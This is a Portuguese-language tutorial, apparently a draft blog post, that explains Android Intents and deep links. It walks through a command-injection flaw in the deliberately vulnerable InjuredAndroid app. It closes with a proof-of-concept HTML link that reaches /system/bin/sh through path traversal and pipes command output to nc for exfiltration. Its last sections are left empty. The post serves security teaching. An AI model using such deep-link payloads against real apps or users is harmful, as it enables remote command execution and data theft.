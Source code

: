 # Pequenas ligações, grandes vulnerabilidades: Uma breve introdução a deep links Android.

## Introdução

Esse artigo tem como objetivo introduzir as vulnerabilidades que ocorrem no Android por meio do abuso de Intents. Tentarei ser o mais introdutório possível e listarei todas as referências necessárias, caso algum conceito pareça muito avançado. Será utilizado o aplicativo [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) como exemplo de *apk* vulnerável. 541v3 pros companheiros da [@duphouse](https://www.instagram.com/duphouse/), sem eles esse texto não seria possível.

Recomendo a [série de vídeos](https://www.youtube.com/watch?v=4eso_7RyZ58) do Maycon Vitali sobre Android no geral, assim como [a minha talk](https://www.youtube.com/watch?v=WFUEbMFx2EQ) na DupCon com vulnerabilidades reais. Existe também o [@thatmobileproject](https://www.instagram.com/thatmobileproject/) para posts sobre segurança em mobile.

## Intents

Os [Intents](https://developer.android.com/guide/components/intents-filters) funcionam como a principal forma dos aplicativos se comunicarem internamente entre si. Por exemplo, se um aplicativo quer abrir o [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) ele pode iniciar-lo por meio de um Intent utilizando a [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) `flag13://rce`.

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
startActivity(intent);
```

Além de aceitar todos os elementos de uma [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) ( scheme, host, path, query, fragment ), um Intent também pode levar dados [fortemente tipados](https://pt.wikipedia.org/wiki/Linguagem_tipada) por meio dos [Intent Extras](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Bundle)). Na prática, *queries* e *extras* são as formas mais comuns de passar dados entre os aplicativos, eles serão discutidos com exemplos mais adiante.


## Intents Filters

Como o Android sabe qual aplicativo se refere `flag13://rce`? O InjuredAndroid define um [Intent Filter](https://developer.android.com/guide/components/intents-filters#Resolution) que diz quais tipos de Intent o Sistema Operacional deve enviar para ele.

O Intent Filter é definido no [AndroidManifest.xml](https://developer.android.com/guide/topics/manifest/manifest-intro). Vamos analizar a definição do Intent Filter relacionado a `flag13://rce` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/AndroidManifest.xml

```xml
<activity
	android:name=".RCEActivity"
	android:label="@string/title_activity_rce"
	android:theme="@style/AppTheme.NoActionBar">
	<intent-filter android:label="filter_view_flag11">
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<!-- Accepts URIs that begin with "flag13://” -->
        <data
			android:host="rce"
			android:scheme="flag13" />
	</intent-filter>
</activity>
```

O atributo `name` define qual [Activity](https://developer.android.com/reference/android/app/Activity) será inicializada, como ele começa com ponto, o nome é resolvido para `package`+`.RCEActivity` = `b3nac.injuredandroid.RCEActivity`. Dentro do Intent Filter, o `action` se refere ao [tipo de ação](https://developer.android.com/reference/android/content/Intent#intent-structure) que será executada, existem uma miríade de tipos de ações que são definidas na classe Intent, porém, na maioria das vezes é utilizado o `action` padrão `android.intent.action.VIEW`.

`category` são propriedades extras que definem como o Intent vai se comportar. `android.intent.category.DEFAULT` define que essa Activity pode ser inicializada mesmo se o Intent não tiver nenhum `category`. `android.intent.category.BROWSABLE` dita que a Activity pode ser inicializada pelo browser, isso é super importante pois transforma qualquer ataque em remoto. Digamos que um usuário entre em um site malicioso, esse site consegue inicializar um Intent que abre o App apenas se o Intent Filter tiver a propriedade `BROWSABLE`.

A *tag* [`data`](https://developer.android.com/guide/topics/manifest/data-element) especifica quais URLs vão corresponder com esse Intent Filter, no nosso caso, o `scheme` tem que ser `flag13` e o `host` igual a `rce`, ficando `flag13://rce`. Todas as partes da URI podem ser definidas, como *path*, *port*, etc. 


## Vulnerabilidade

Agora que entedemos como Intents e Intents Filters funcionam, vamos procurar alguma vulnerabilidade no `flag13://rce` (O "rce" ficou meio óbvio né).

O código-fonte da Activity `b3nac.injuredandroid.RCEActivity` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt

```kotlin
49 if (intent != null && intent.data != null) {
50     copyAssets()
51     val data = intent.data
52     try {
53         val intentParam = data!!.getQueryParameter("binary")
54         val binaryParam = data.getQueryParameter("param")
55         val combinedParam = data.getQueryParameter("combined")
56         if (combinedParam != null) {
57             childRef.addListenerForSingleValueEvent(object : ValueEventListener {
58                 override fun onDataChange(dataSnapshot: DataSnapshot) {
59                     val value = dataSnapshot.value as String?
60                     if (combinedParam == value) {
61                         FlagsOverview.flagThirteenButtonColor = true
62                         val secure = SecureSharedPrefs()
63                         secure.editBoolean(applicationContext, "flagThirteenButtonColor", true)
64                         correctFlag()
65                     } else {
66                         Toast.makeText(this@RCEActivity, "Try again! :D",
67                                 Toast.LENGTH_SHORT).show()
68                     }
69                 }
70
71                 override fun onCancelled(databaseError: DatabaseError) {
72                     Log.e(TAG, "onCancelled", databaseError.toException())
73                 }
74             })
75         }
```

A Activity é inicializada na função `onCreate` e é lá que o Intent será devidamente tratado. Na linha [49](https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt#L49) o aplicativo checa se `intent` é nulo, se não for ele irá pegar algumas *queries* `binary`, `param` e `combined`. Se `combined` for nulo ele não entrará no `if` da linha 56 e irá para o seguinte `else`:

```kotlin
76 else {
77
78     val process = Runtime.getRuntime().exec(filesDir.parent + "/files/" + intentParam + " " + binaryParam)
79     val bufferedReader = BufferedReader(
80             InputStreamReader(process.inputStream))
81     val log = StringBuilder()
82     bufferedReader.forEachLine {
83         log.append(it)
84     }
85     process.waitFor()
86     val tv = findViewById<TextView>(R.id.RCEView)
87     tv.text = log.toString()
88 }
```

Na linha 78 é passado para a função `Runtime.getRuntime().exec()` as variáveis `intentParam` e `binaryParam`, essa função executa comandos no sistema, logo temos um [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) através do Intent. Vamos tentar explora-lo!

Normalmente, num Command Injection tentaríamos passar algum carácter para executar outro commando, como `&`/`|`/`;`, porém se tentarmos desse jeito o Android irá dar um erro na primeira parte do comando, o `filesDir.parent + "/files/"`, pois não encontrará o arquivo ou dará erro de permissão e não executará o resto do nosso *payload*. Para resolvermos esse problema podemos voltar os diretórios com `../` até chegarmos no diretório *root*, a partir dai podemos executar o `/system/bin/sh` e executar qualquer comando que quisermos.

Nossa [PoC](https://pt.wikipedia.org/wiki/Prova_de_conceito) terá os seguintes passos :

1. Alvo clica num link malicioso
2. Browser abre um Intent para `b3nac.injuredandroid.RCEActivity`
3. A Activity `RCEActivity` executa o comando do atacante
4. `/system/bin/sh` exfiltra o resultado do comando para um servidor do atacante

```html
<a href="flag13://rce?binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id|nc %27&param=1">pwn me</a>
```


## Intent Extras

Exemplo de Intent Extra via Browser ? 

## Conclusão

